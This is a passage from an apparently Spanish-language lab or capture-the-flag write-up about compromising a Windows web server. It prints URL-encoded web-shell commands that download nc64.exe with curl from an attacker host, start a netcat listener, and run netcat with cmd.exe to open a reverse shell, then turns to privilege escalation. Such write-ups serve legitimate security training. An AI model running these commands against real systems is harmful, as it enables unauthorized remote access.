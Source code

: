 **Formato URL**

```python
curl%20http%3A%2F%2F10.50.195.140%3A9090%2Fnc64.exe%20-o%20nc64.exe
```

Hecho lo anterior ya tendremos `netcat` en nuestra máquina víctima, por lo cual solo nos haría falta ponernos en escucha por un puerto y ejecutar un comando para obtener nuestra `reverse shell`.

```python
rlwrap nc -nlvp 443
```

**Comando**

```python
C:\xampp\htdocs\resources\uploads\nc64.exe -e cmd.exe 10.50.195.140 443
```

**Formato URL**

```python
C%3A%5Cxampp%5Chtdocs%5Cresources%5Cuploads%5Cnc64.exe%20-e%20cmd.exe%2010.50.195.140%20443
```

![netcat on last target](/assets/images/report/netcatlasttarget.png)

Como vemos en la imagen anterior hemos conseguido nuestra `web shell` en la máquina `10.200.198.100` como el usuario Thomas.

### Escalada de privilegios

En este caso estamos ejecutando comandos como un usuario con pocos privilegios, por lo cual deberemos enumerar vías potenciales para convertirnos en un usuario con privilegios elevados `(nt authority\system)`.
